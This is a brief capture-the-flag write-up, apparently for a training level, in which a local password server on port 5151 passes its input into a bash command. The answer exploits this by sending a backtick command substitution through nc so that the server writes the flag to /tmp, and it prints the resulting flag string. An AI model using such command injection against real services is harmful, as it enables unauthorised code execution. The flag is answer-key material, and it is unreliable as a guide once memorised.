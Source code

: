 HINT:
the hash function looks very pawnable

ANSWER:
When looking at the code we can see that there is a server running on port 5151 of localhost and that server is waiting for a password.
It's useless to reverse the hash instead we notice that the hash function runs a bash comamnd with the given pass, let's abuse that:
nc localhost 5151
`getflag > /tmp/flag`
we get the /tmp/flag file and get:
g1qKMiRpXf53AWhDaU7FEkczr